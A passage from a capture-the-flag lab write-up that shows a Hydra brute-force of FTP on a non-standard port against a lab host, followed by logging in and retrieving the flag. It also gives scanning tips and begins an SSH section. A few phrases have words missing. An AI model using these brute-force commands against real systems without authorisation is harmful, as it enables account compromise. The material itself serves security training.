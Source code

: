
\begin{takebox}
\textbf{Lesson:} When  fails silently or hangs, always try the
 flag. Some targets explicitly reject
SMBv1 connections. The flag content contained a hint about FTP and specific
usernames --- read it fully before moving on.
\end{takebox}

\section*{Flag 2 --- FTP with Custom User List}

Flag 1 contained a hint naming specific usernames. I created a targeted user list
from those names and used Hydra to brute-force FTP running on a non-standard port.

\begin{termbox}
# Build user list from names in flag hint
echo "user1" > /root/user.txt
echo "user2" >> /root/user.txt

# Brute-force FTP on non-standard port 5554
hydra -L /root/user.txt \
      -P /root/Desktop/wordlists/unix_passwords.txt \
      ftp://target.ine.local -s 5554

# Login with found credentials
ftp target.ine.local 5554
ls
get flag2.txt
exit
cat flag2.txt
\end{termbox}


\begin{takebox}
\textbf{Lesson:} Non-standard ports matter. The initial nmap scan showed an unusual
port that turned out to be FTP. Always scan all ports or at least the top 5000
(\ic{nmap -p 1-5000}) rather than only the top 1000. Flag 2 contained a hint
about SSH.
\end{takebox}

\section*{Flag 3 --- SSH Anonymous Login Banner}

Brute-forcing SSH directly failed --- too many attempts or the account locked. I
tried anonymous login instead.


